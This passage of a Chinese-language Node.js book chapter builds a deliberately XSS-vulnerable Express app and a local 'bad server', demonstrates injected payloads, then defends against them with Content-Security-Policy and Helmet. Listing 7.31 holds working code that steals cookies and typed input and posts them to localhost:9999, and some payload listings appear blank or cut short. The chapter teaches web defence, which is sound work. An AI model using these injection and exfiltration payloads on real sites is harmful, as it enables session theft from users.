       ** <div class="m-2">**
 **<****label class="form-label">Message:</label>**
 **<input id="input" class="****form-control" />**
 **</div>**
        <button id="btn" class="btn btn-primary m-2">Send Message</button>
        <table class="table table-striped">
            <tbody>
                <tr><th>Status</th><td id="msg"></td></tr>
                <tr><th>Response</th><td id="body"></td></tr>
            </tbody>
       </table>
    </body>
</html> 
```

*列表 7.24* 更新客户端 JavaScript 代码，以便将 *列表 7.23* 中添加的 `input` 元素的 内容发送到服务器。

列表 7.24：在静态文件夹中的 client.js 文件中更新客户端代码

```js
document.addEventListener('DOMContentLoaded', function() {
    document.getElementById("btn").addEventListener("click", sendReq);
});
const requestUrl = "/read";
sendReq = async () => {
    **// let payload = document.getElementById("input").value;**
 **// for (let i = 0; i < 5; i++) {**
 **//     payload.push({ id: i, message: `Payload Message: ${i}\n`});**
 **// }**
    const response = await fetch(requestUrl, {
       ** method: "POST", body****: document.getElementById("input").value,**
 **// headers: {**
 **//     "Content-Type": "application/json"**
 **// }**
    })
    document.getElementById("msg").textContent = response.statusText;
    document.getElementById("body").innerHTML = await response.text();
} 
```

*列表 7.25* 更新了接收浏览器数据的处理器，以便将数据从请求管道到响应。这意味着输入到 `input` 元素中的任何内容都将发送到服务器，然后管道回浏览器，在那里它将被显示给用户。

列表 7.25：在 src 文件夹中的 readHandler.ts 文件中管道数据

```js
import { Request, Response } from "express";
export const readHandler = (req: Request, resp: Response) => {   
    **// resp.json({**
 **//     message: "Hello, World"**
 **// });**
 **resp.cookie("sessionID", "mysecretcode");**
 **req.pipe(resp);**
} 
```

处理器还在响应中设置了一个 cookie。XSS 攻击的一种用途是窃取会话凭证，以便攻击者可以冒充合法用户。*列表 7.25* 中的代码设置的 cookie 是将要窃取的数据的占位符。

**提示**

有关如何创建和使用真实会话的详细信息，请参阅本书的第二部分。

从*列表 7.23*到*列表 7.25*所做的更改故意创建了一种情况，即用户提供的输入在没有任何形式验证的情况下被使用。这种问题在简单示例中很容易发现，但在实际项目中可能要困难得多，尤其是在随着时间的推移添加功能的项目中。这是一个如此普遍的问题，以至于跨站脚本攻击（XSS）是**开放式全球应用程序安全项目**（**OWASP**）确定的十大应用安全风险之一，并且已经持续了多年（有关完整列表，请参阅[`owasp.org/www-project-top-ten`](https://owasp.org/www-project-top-ten)）。

## 注入恶意内容

为了完成准备工作，将名为`badServer.mjs`的文件添加到`webapp`文件夹中，其内容如*列表 7.26*所示。这是一个“不良”服务器，它将代表恶意代码提供内容和接收请求。

列表 7.26：在 webapp 文件夹中的 badServer.mjs 文件中创建服务器

```js
import { createServer } from "http";
import express from "express";
import cors from "cors";
createServer(express().use(cors()).use(express.static("static"))
    .post("*", (req, resp) => {
        req.on("data", (data) => { console.log(data.toString()) });
        req.on("end", () => resp.end());
    })).listen(9999,
        () => console.log(`Bad Server listening on port 9999`)); 
```

为了简化，此文件包含 JavaScript 代码，以便无需 TypeScript 编译器即可执行。代码以简洁性表达，而不是可读性，并使用 Express 功能提供静态内容，以及路由器接收 POST 请求。

打开一个新的命令提示符，导航到`webapp`文件夹，并运行*列表 7.27*中显示的命令以启动服务器。

列表 7.27：启动不良服务器

```js
node badServer.mjs 
```

准备好示例应用程序和不良服务器后，颠覆应用程序的过程需要输入精心设计的字符串，目的是让浏览器加载内容或执行不属于应用程序的 JavaScript。

**注意**

本节展示了简单且相关的利用，这些利用利用了我有意创建的缺陷，这有助于我描述有用的功能，但并不涵盖 XSS 问题的全部范围。您可以在[`cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html`](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)找到一组出色的 XSS 测试。

将*列表 7.28*中显示的文本输入到`input`元素中，并点击**发送消息**按钮。在将文本输入到`input`元素时，请注意引号字符。使用双引号和单引号非常重要，正如所示，否则浏览器将无法解析字符串。

列表 7.28：请求图像

```js
 
```

客户端 JavaScript 代码将服务器的响应添加到显示给用户的 HTML 文档中，这导致浏览器从不良服务器请求图像文件。点击图像会导致浏览器从应用程序导航离开，如图*图 7.9*所示。

![img/B21959_07_09.png]

图 7.9：通过点击重定向加载图像

可以添加到文档中的不仅仅是图像。将 *Listing 7.29* 中显示的文本输入到 `input` 元素中，然后点击 **发送消息** 按钮，这将向用户显示的文档中添加一个按钮。再次密切注意引号字符。

列表 7.29：创建按钮

```js
<button class="btn btn-danger" onclick="location='http://packt.com'">Click</button> 
```

创建的按钮利用了应用程序使用的 CSS 样式表，使新元素的外观与浏览器显示的其他按钮保持一致，如图 *7.11* 所示。



图 7.11：添加元素

注入的代码也可以用来窃取敏感数据。将 *Listing 7.30* 中显示的文本输入到 `input` 元素中，然后再次点击 **发送消息** 按钮，同时密切注意引号字符，并将文本作为单行输入。

列表 7.30：窃取数据

```js
 
```

此 `img` 元素指定了一个不存在的文件。当浏览器无法加载文件时，将触发 `error` 事件，执行 *Listing 7.30* 中分配给 `onerror` 属性的 JavaScript 代码片段。该代码使用浏览器的 Fetch API 向恶意服务器发送 HTTP POST 请求，包括作为请求体的敏感 cookie 数据。如果你检查运行恶意服务器的命令提示符的输出，你会看到以下消息，显示恶意服务器接收到的数据：

```js
Bad Server listening on port 9999
**sessionID=mysecretcode** 
```

不需要用户操作即可触发此行为，并且数据在浏览器尝试（并失败）加载图像时立即发送。对于最后一个示例，将名为 `bad.js` 的文件添加到 `static` 文件夹中，其内容如 *Listing 7.31* 所示。

列表 7.31：静态文件夹中 bad.js 文件的内容

```js
const input = document.getElementById("input");
const button = document.getElementById("btn");
const newButton = button.cloneNode();
button.parentElement.replaceChild(newButton, button);
newButton.textContent = "Bad Button";
newButton.addEventListener("click", () => {
    sendReq();
    fetch("http://localhost:9999", {
        method: "POST",
        body: JSON.stringify({
            cookie: document.cookie,
            input: input.value
        })
    });
});
input.value = "";
input.placeholder = "Enter something secret here";
document.getElementById("body").innerHTML = ""; 
```

此代码定位 HTML 文档中的 `button` 元素，并将其替换为将敏感数据发送到恶意服务器的元素。要使浏览器加载此文件，请在 `input` 元素中输入 *Listing 7.32* 中显示的文本，然后点击 **发送消息** 按钮。这是本节中最复杂的示例，必须特别小心地正确输入，并且作为单行输入。

列表 7.32：加载 JavaScript 文件

```js
 r.text()).then(t => eval(t))"> 
```

JavaScript 代码使用浏览器的 Fetch API 从恶意 HTTP 服务器请求 `bad.js` 文件，然后使用 JavaScript `eval` 函数执行其内容。`eval` 函数将任何字符串视为 JavaScript 代码，因此，每次使用时都可能存在风险。当浏览器执行 JavaScript 代码时，现有的按钮将被替换为将敏感 cookie 数据发送到恶意服务器的按钮，如图 *7.12* 所示。（按钮文本也进行了更改，以强调变化。）



图 7.12：替换按钮

当你点击按钮时，恶意 HTTP 服务器将显示一个控制台消息，显示 cookie 值以及你在点击按钮之前输入到 `input` 元素中的任何内容，如下所示：

```js
...
{"cookie":"sessionID=mysecretcode","input":"myothersecret"}
... 
```

**为什么不直接注入一个脚本元素？**

XSS 攻击已经是一个长期存在的问题，以至于一些针对它们的保护措施被编码到 HTML 规范中。例如，示例应用中的客户端代码使用`innerHTML`属性来显示它从后端服务器接收到的响应，如下所示：

```js
`...`
`document.getElementById("body").innerHTML = await response.text();`
`...` 
```

HTML 规范指示浏览器不要执行分配给`innerHTML`属性的`script`元素，这意味着直接使用 JavaScript 代码将不会工作，但使用事件处理器将会。这种限制是由于示例应用从一章到另一章的演变方式造成的，并且你不应该假设所有应用都会受到类似的限制。

## 定义内容安全策略

内容安全策略告诉浏览器客户端应用预期如何行为，并使用`Content-Security-Policy`标头设置，如*列表 7.33*所示。

列表 7.33：在 src 文件夹中的 server.ts 文件中设置内容安全策略

```js
import { createServer } from "http";
import express, {Express } from "express";
import { readHandler } from "./readHandler";
import cors from "cors";
import httpProxy from "http-proxy";
const port = 5000;
const expressApp: Express = express();
const proxy = httpProxy.createProxyServer({
    target: "http://localhost:5100", ws: true
});
**expressApp.use((****req, resp, next) => {**
 **resp.setHeader("Content-Security-Policy", "img-src 'self'");**
 **next();**
**})**
expressApp.use(cors({
    origin: "http://localhost:5100"
}));
expressApp.use(express.json());
expressApp.post("/read", readHandler);
expressApp.use(express.static("static"));
expressApp.use(express.static("node_modules/bootstrap/dist"));
//expressApp.use(express.static("dist/client"));
expressApp.use((req, resp) => proxy.web(req, resp));
const server = createServer(expressApp);
server.on('upgrade', (req, socket, head) => proxy.ws(req, socket, head));
server.listen(port,
    () => console.log(`HTTP Server listening on port ${port}`)); 
```

应将 CSP 标头应用于每个响应，因此列表使用 Express 的`use`方法设置一个中间件组件，它类似于常规请求处理器，但接收一个额外的参数，用于将请求传递给进一步处理。

标头值是应用的策略，由一个或多个*策略指令*和值组成。*列表 7.33*中的标头包含一个策略指令，即`img-src`，其值为`self`：

```js
...
resp.setHeader("Content-Security-Policy", **"img-src 'self'"**);
... 
```

CSP 规范定义了一系列策略，指定了可以从不同位置加载的不同内容。*表 7.4*描述了最有用的策略指令，完整的列表可以在`https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy`找到。

表 7.4：有用的 CSP 指令

| 策略指令 | 描述 |
| --- | --- |

|

```js
`default-src` 
```

| 此指令设置所有指令的默认策略。 |
| --- |

|

```js
`connect-src` 
```

| 此指令指定了可以使用 JavaScript 代码请求的 URL。 |
| --- |

|

```js
`img-src` 
```

| 此指令指定了可以从其中加载图片的来源。 |
| --- |

|

```js
`script-src` 
```

| 此指令指定了可以从其中加载 JavaScript 文件的来源。 |
| --- |

|

```js
`script-src-attr` 
```

| 此指令指定了内联事件处理器的有效来源。 |
| --- |

|

```js
`form-action` 
```

| 此指令指定了可以发送表单数据的 URL。 |
| --- |

策略的值可以使用带有通配符的 URL（例如`http://*.acme.com`）或方案（例如`http:`以允许所有 HTTP 请求或`https:`以允许所有 HTTPS 请求）来指定。还有特殊值，如`'none'`，它阻止所有 URL，以及`'self'`，它限制请求到加载文档的来源。（这些特殊值必须指定单引号，这就是为什么*列表 7.33*中定义的策略看起来奇怪地加了引号。）

在 *列表 7.33* 中定义的策略告诉浏览器，只能从与 HTML 文档相同的源请求图像。为了看到效果，请重新加载浏览器，输入 *列表 7.28* 中的文本，然后点击 **发送消息** 按钮。（您必须重新加载以确保 *列表 7.33* 中定义的头部信息被发送到浏览器。）

该策略限制了图像，使其只能来自与 HTML 文档相同的源。如果您检查浏览器的 *F12* 开发者工具，您将在控制台看到类似以下错误消息，这是来自 Chrome 的：

```js
...
Refused to load the image 'http://localhost:9999/city.png' because it violates the following Content Security Policy directive: "img-src 'self'".
... 
```

阻止从不良服务器加载图像的尝试，但如果您点击浏览器显示的损坏图像占位符，您仍然可以离开应用程序。策略通常需要多个指令才能有效。

## 使用包设置策略头部

可以直接设置 CSP 头部，如前节所示，但使用包来定义 CSP 策略更容易且更不容易出错。一个优秀的包是 *Helmet* ([`helmetjs.github.io`](https://helmetjs.github.io))，它设置了一些与安全相关的头部，包括 CSP 头部。在 `webapp` 文件夹中运行 *列表 7.34* 中显示的命令以安装 Helmet 包。

列表 7.34：将包添加到项目中

```js
npm install helmet@7.1.0 
```

*列表 7.35* 替换了上一节中的自定义中间件，并定义了示例应用的完整策略。

列表 7.35：在 src 文件夹中的 server.ts 文件中定义 CSP 策略

```js
import { createServer } from "http";
import express, {Express } from "express";
import { readHandler } from "./readHandler";
import cors from "cors";
import httpProxy from "http-proxy";
**import helmet from "helmet";**
const port = 5000;
const expressApp: Express = express();
const proxy = httpProxy.createProxyServer({
    target: "http://localhost:5100", ws: true
});
**// expressApp.use((req, resp, next) => {**
**//     resp.setHeader("Content-Security-Policy",**
**//       "img-src 'self'; connect-src 'self'");**
**//     next();**
**// })**
**expressApp.use(helmet({**
 **contentSecurityPolicy: {**
 **directives: {**
 **imgSrc: "'self'",**
 **scriptSrcAttr: "'none'",**
 **scriptSrc: "'****self'",**
 **connectSrc: "'self' ws://localhost:5000"** 
 **}**
 **}**
**}));**
expressApp.use(cors({
    origin: "http://localhost:5100"
}));
expressApp.use(express.json());
expressApp.post("/read", readHandler);
expressApp.use(express.static("static"));
expressApp.use(express.static("node_modules/bootstrap/dist"));
expressApp.use((req, resp) => proxy.web(req, resp));
const server = createServer(expressApp);
server.on('upgrade', (req, socket, head) => proxy.ws(req, socket, head));
server.listen(port,
    () => console.log(`HTTP Server listening on port ${port}`)); 
```

Helmet 作为中间件应用，并配置了一个对象，其属性决定了设置的头部和应使用的值。`contentSecurityPolicy.directives` 属性用于设置 CSP 指令，因为 JavaScript 中不允许使用连字符的 CSP 指令名称，所以以驼峰式表达（例如，`img-src` 变为 `imgSrc`）。

*列表 7.35* 中的配置指定了一个内容安全策略，允许从 HTML 文档的域加载图像，阻止元素属性中的所有 JavaScript，限制 JavaScript 文件只能来自文档的域，并限制 JavaScript 代码可以建立连接的 URL。

最后一个指令指定了 `self`，允许发送 HTTP 连接到后端服务器，但也包括了 `ws://localhost:5000` URL，这允许 webpack 实时重新加载功能所需的连接（`ws` 方案表示一个 WebSocket 连接，这是在 *列表 7.21* 中设置代理时需要额外配置的相同连接）。

如果此时重新加载浏览器，你将在浏览器的 JavaScript 控制台中看到 CSP 错误。这是因为 CSP 已禁用 `eval` 函数的使用，这是合理的，因为它非常危险，但问题在于 webpack 使用 `eval` 解包其打包内容。（这仅在 webpack 生成开发打包时适用，在应用部署前生成的最终打包中不适用。）

最佳做法是更改 webpack 配置，使其使用不同的技术来处理打包，如 *Listing 7.36* 所示。

列表 7.36：在 `webapp` 文件夹中的 `webpack.config.mjs` 文件中更改 webpack 配置

```js
import path from "path";
import { fileURLToPath } from 'url';
const __dirname = path.dirname(fileURLToPath(import.meta.url));
export default  {
    mode: "development",
    entry: "./static/client.js",
    output: {
        path: path.resolve(__dirname, "dist/client"),
        filename: "bundle.js"
    },
    "devServer": {
        port: 5100,
        static: ["./static", "node_modules/bootstrap/dist"],
        client: {
            webSocketURL: "http://localhost:5000/ws"
        }
    },
   **devtool: "source-map"**
}; 
```

使用 *Control+C* 停止构建工具，并在 `webapp` 文件夹中运行 `npm start` 命令以使用新的配置重新启动它们。重新加载浏览器，JavaScript 打包器将不使用 `eval` 函数进行处理。再次运行从 *Listing 7.28* 到 *Listing 7.32* 的示例，你会看到每个攻击都被内容安全策略中的一个设置所击败。

**注意**

`Content-Security-Policy-Report-Only` 标头指示浏览器报告那些会破坏内容安全策略但不会阻止这些操作的行为，这可以是一种评估现有应用的好方法。如果你正在使用 Helmet 包，可以通过将 `contentSecurityPolicy.reportOnly` 配置设置设为 `true` 来启用此标头。

CSP（内容安全策略）有其限制，避免在向用户显示的 HTML 中包含未经过滤的用户输入是很重要的。我在本书的第二部分演示了如何处理用户输入。

**注意**

如果你无法更改 webpack 配置，则可以在内容安全策略中允许使用 `eval` 函数。将 `scriptSrc` 设置的值设为 `"'self' 'unsafe-eval'"`。特殊的 `'unsafe-eval'` 值允许使用 `eval` 函数，但 `'self'` 值限制了可以下载 JavaScript 文件的来源，仅限于后端服务器。

# 摘要

在本章中，我描述了两种重要的方式，即后端 Node.js 服务器如何与现代 Web 应用中的其他组件协同工作。我描述的第一个主题是使用打包器：

+   打包器将多个文件合并并压缩，以减少浏览器发出的 HTTP 请求次数，并减少需要传输的数据量。

+   打包器已集成到所有流行的客户端框架的开发工具中，包括 Angular 和 React。

+   打包器可以独立于后端服务器工作，但最佳工作流程是通过一起使用它们来实现的。

+   我描述的第二个主题是内容安全策略的应用。

+   内容安全策略用于防御 **跨站脚本攻击**（XSS），其目标是欺骗浏览器执行恶意 JavaScript 代码。

+   为了应用内容安全策略，后端服务器向浏览器提供客户端应用程序代码如何行为的描述，包括它如何获取和使用资源，如图片和 JavaScript 代码。

+   浏览器会阻止超出内容安全策略限制的 JavaScript 操作。

在下一章中，我将演示 Node.js 为单元测试和调试 JavaScript 代码提供的功能。
